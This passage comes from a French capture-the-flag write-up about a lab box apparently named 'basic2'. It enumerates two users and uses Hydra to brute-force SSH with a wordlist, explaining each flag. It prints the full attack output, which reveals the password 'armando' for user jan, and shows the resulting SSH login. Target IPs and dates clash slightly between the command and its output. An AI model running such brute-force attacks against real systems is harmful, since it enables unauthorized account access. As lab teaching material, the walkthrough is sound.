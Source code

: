 ```
S-1-22-1-1001 Unix User\jan (Local User)
```

2 utilisateurs en sont sortie, <u>kay</u> et <u>jan</u>.

Maintenant que nous avons 2 utilisateurs nous pouvons bruteforce le ssh pour trouver le mot de passe de l'un des comptes.



##### **<u>4. HYDRA:</u>**

> hydra -l jan -P Documents/wordlist/user.txt -s 22 -f ssh://10.10.205.109 -t 5
>

- `-l: Demande de taper un login specifique.`
- `-P: Demande un fichier pour énumerer les mot de passe.`
- `-s: Port.`
- `-f: Arrête le programme après avoir trouvé le premier login/motdepasse.`
- `-t: Lance un nombre de tâches en parallèle, par défaut 16. (Etant donné que les box ne sont pas très solide il faut réduire la vitesse des requêtes)`

```
Hydra (http://www.thc.org/thc-hydra) starting at 2021-01-20 23:05:09
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 12645 login tries (l:1/p:12645), ~2529 tries per task
[DATA] attacking ssh://10.10.47.37:22/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 12565 to do in 02:38h, 5 active
[STATUS] 76.67 tries/min, 230 tries in 00:03h, 12415 to do in 02:42h, 5 active
[STATUS] 75.71 tries/min, 530 tries in 00:07h, 12115 to do in 02:41h, 5 active
[STATUS] 75.07 tries/min, 1126 tries in 00:15h, 11519 to do in 02:34h, 5 active
[STATUS] 75.03 tries/min, 2326 tries in 00:31h, 10319 to do in 02:18h, 5 active
[22][ssh] host: 10.10.47.37   login: jan   password: armando
[STATUS] attack finished for 10.10.47.37 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2020-12-30 2021-01-20 23:45:32
```

Yes! Mot de passe trouvé!

On peut donc se connecter sur l'utilisateur <u>jan</u> avec le mot de passe <u>armando</u>.

> ssh jan@10.10.47.37
>

```
ssh jan@10.10.47.37
The authenticity of host '10.10.47.37 (10.10.47.37)' can't be established.
ECDSA key fingerprint is SHA256:+Fk53V/LB+2pn4OPL7GN/DuVHVvO0lT9N4W5ifchySQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.47.37' (ECDSA) to the list of known hosts.
jan@10.10.47.37's password: 

jan@basic2:~$ 
```
